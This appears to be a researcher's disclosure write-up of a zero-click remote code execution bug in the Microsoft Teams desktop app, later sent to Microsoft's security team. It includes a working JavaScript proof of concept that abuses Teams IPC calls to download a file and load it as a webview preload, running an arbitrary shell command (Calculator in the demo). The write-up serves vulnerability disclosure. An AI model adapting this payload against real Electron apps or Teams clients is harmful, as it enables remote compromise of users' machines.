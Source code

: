 ```javascript
// redacted no new window RCE payload until ~2021 as requested by Microsoft
```

## Payload with a new window

![file download webview preload RCE](/media/ms-teams-new-window-rce-2020-08.gif)

The blank window could have arbitrary content, size, look - it's  "suspiciously blank" because it's a PoC.

[original MOV file here](/media/ms-teams-mention-rce2-2020-08-30.mov)

No user interaction is required, exploit executes upon seeing the chat message. This exploit bypasses webview restrictions and abuses MS Teams API calls to "download" a file and use it as `preload` (nodeJS context) for a `webview`. Teams actually filters `webview` creation - filtering `preload` and other dangerous options, but in this way the check could be bypassed. Probably the idea could be used in other, older ElectronJS apps.


```javascript
cmd = `open /System/Applications/Calculator.app` // change to windows/linux command as required

stage1 = `data:text/plain,cp=require('child_process');cp.exec('${cmd}')`; // create a virtual file to download
this.electronSafeIpc.send(`desktopFileDownload`, stage1); // request to download file

// implement an event handler when files downloaded to trigger payload
this.electronSafeIpc.on(`desktop-file-download-finished`, (_, fileinfo) => { 
        f = fileinfo.uniqueFile.filePath; // event gives us file path which we don't know beforehand
        
        // create a new webview mockup - window with a webview tag and our virtual, downloaded file as preload
        stage2 = `data:text/html,<webview src='about:blank' preload='file:///${f}'></webview>`
        this.electronSafeIpc.send(`allowWindowOpenUrl`, stage2); // abusing MS Teams IPC API to allow above URL
        this.w = window.open(stage2); // URL gets opened, webview gets created with our virtual, downloaded file preload
        setTimeout(()=>{this.w.close()},1000) // not necessary, but let's close the custom window
    }
)
```

# Below is the original bug report sent to MSRC

# Summary

A Remote Code Execution vulnerability has been identified in MS Teams desktop which can be triggered by a novel XSS (Cross-Site Scripting) injection in teams.microsoft.com. A specifically crafted chat message can be sent to any Microsoft Teams member or channel which will execute arbitrary code on victim PC's with NO USER INTERACTION.
